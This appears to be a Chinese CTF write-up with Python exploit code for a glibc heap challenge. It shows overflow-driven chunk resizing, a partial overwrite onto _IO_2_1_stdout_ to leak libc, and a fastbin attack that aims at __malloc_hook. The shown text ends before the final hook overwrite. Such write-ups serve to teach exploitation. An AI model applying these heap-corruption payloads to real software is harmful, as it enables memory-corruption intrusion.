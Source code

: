 

### 构造堆快布局

```python
	ad(0x68,  'A') #idx 实现堆溢出,修改chunk 1的size为small bin
	ad(0x68,  'B') #idx 这里被修改后释放会变成unsoted bin,再次开辟适当大小使main_arena信息到chunk2中
	ad(0x68,  'C') #idx 2 这里就可通过chunk中堆溢出实现partial write fastbin attack 打入stdout
	ad(0x68,  'D') #idx 3 防止topc chunk 的合并
```

### partial write打入IO_2_1_stdout

```python
	rm(0) #由于没有修改功能, 只能先释放,然后再开辟同样大小的内存,进行堆溢出修改chunk 1
	p = 'A' * 0x60
	p += p64(0x0)
	p += '\xe1'
	ad(0x68, p) # 修改chunk 1的大小
	rm(1) # 释放 chunk 1就变成了unsoted bin
	rm(2) # 释放 chunk 2
	ad(0x28, 'A' * 0x28) # 开辟该堆,会通过unsoted bin 分割,就是从chunk 1中分割出来

	p = 'B' * 0x30
	p += p64(0)
	p += p64(0x71)
	p += '\xdd\x25' # 使fd指向IO_2_1_stdout附近.
	ad(0x38, p) # 开辟该内存还是继续从unsoted bin中分割,也还是在chunk 1中, 然后通过堆溢出修改chunk 2
	ad(0x68, '\xdd\x25') # 这个只是为了调整fastbin, 里面数据没用,多写了.
```

### 泄漏 libc基址

修改IO_2_1_stdout的flags,再修改_IO_write_base为所想打印的地址, 而覆盖_IO_write_base最低byte为0就指向了还是IO内部,而IO内部储存大量的libc地址,修改完毕后,这个时候就输出了libc中的地址.

```python
    #修改IO_s2_1_stdout结构
    p = '\x00' * 0x33
    p += p64(0x00000000fbad1800) #flag
	p += p64(0) * 3
	p += p8(0) #_IO_write_base
	ad(0x68, p) #idx 5
	lib.address = u64(ru('\x7f')[-5:] + '\x7f\x00\x00') - lib.sym['_IO_2_1_stderr_'] - 192

	li('lib_base ' + hex(lib.address))
```

### fastbin attack打入 malloc_hook处

再使用chunk1 中的0x38小堆块释放又重新开辟,进行溢出修改

```python
	# fastbin attack to malloc_hook -0x23
	rm(4) #释放的是chunk 2
	rm(2) # 释放的是 chunk 1中0x38的小堆块

	p = 'B' * 0x30
	p += p64(0)
	p += p64(0x71)
	p += p64(lib.sym['__malloc_hook'] - 0x23)
	ad(0x38, p) #堆溢出,修改chunk 2中的fd为malloc_hook - 0x23处
	ad(0x68, 'A') # 调整
```
